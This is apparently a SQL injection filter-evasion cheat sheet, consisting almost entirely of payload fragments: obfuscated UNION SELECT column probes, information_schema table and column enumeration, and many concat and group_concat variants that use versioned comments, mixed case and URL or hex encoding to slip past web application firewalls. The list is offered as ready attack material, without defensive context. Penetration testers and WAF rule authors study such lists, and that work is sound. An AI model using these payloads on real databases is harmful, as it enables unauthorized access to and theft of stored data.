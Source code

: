 ```
 /*!12345%55nion*/(/*!12345%53elect*/ 1,2,3,4,5)
 /*!12345%55nion*/(/*!12345%53elect*/ 1,2,3,4,5,6)
 /*!12345%55nion*/(/*!12345%53elect*/ 1,2,3,4,5,6,7)

```



### Information_schema.tables 

```
/*!froM*/ /*!InfORmaTion_scHema*/.tAblES /*!WhERe*/ /*!TaBle_ScHEmA*/=schEMA()-- -
/*!froM*/ /*!InfORmaTion_scHema*/.tAblES /*!WhERe*/ /*!TaBle_ScHEmA*/ like schEMA()-- -
/*!froM*/ /*!InfORmaTion_scHema*/.tAblES /*!WhERe*/ /*!TaBle_ScHEmA*/=database()-- -
/*!froM*/ /*!InfORmaTion_scHema*/.tAblES /*!WhERe*/ /*!TaBle_ScHEmA*/ like database()-- -
/*!FrOm*/+%69nformation_schema./**/columns+/*!50000Where*/+/*!%54able_name*/=hex table
/*!FrOm*/+information_schema./**/columns+/*!12345Where*/+/*!%54able_name*/ like hex table
```

### Concat

```
CoNcAt()
concat() 
CON%08CAT()
CoNcAt()
%0AcOnCat()
/**//*!12345cOnCat*/
/*!50000cOnCat*/(/*!*/)
unhex(hex(concat(table_name)))
unhex(hex(/*!12345concat*/(table_name)))
unhex(hex(/*!50000concat*/(table_name)))
```

### group_concat

```
/*!group_concat*/()
gRoUp_cOnCAt()
group_concat(/*!*/)
group_concat(/*!12345table_name*/)
group_concat(/*!50000table_name*/)
/*!group_concat*/(/*!12345table_name*/)
/*!group_concat*/(/*!50000table_name*/)
/*!12345group_concat*/(/*!12345table_name*/)
/*!50000group_concat*/(/*!50000table_name*/)
/*!GrOuP_ConCaT*/()
/*!12345GroUP_ConCat*/()
/*!50000gRouP_cOnCaT*/()
/*!50000Gr%6fuP_c%6fnCAT*/()
unhex(hex(group_concat(table_name)))
unhex(hex(/*!group_concat*/(/*!table_name*/)))
unhex(hex(/*!12345group_concat*/(table_name)))
unhex(hex(/*!12345group_concat*/(/*!table_name*/)))
unhex(hex(/*!12345group_concat*/(/*!12345table_name*/)))
unhex(hex(/*!50000group_concat*/(table_name)))
unhex(hex(/*!50000group_concat*/(/*!table_name*/)))
unhex(hex(/*!50000group_concat*/(/*!50000table_name*/)))
convert(group_concat(table_name)+using+ascii)
convert(group_concat(/*!table_name*/)+using+ascii)
convert(group_concat(/*!12345table_name*/)+using+ascii)
convert(group_concat(/*!50000table_name*/)+using+ascii)
CONVERT(group_concat(table_name)+USING+latin1)

```
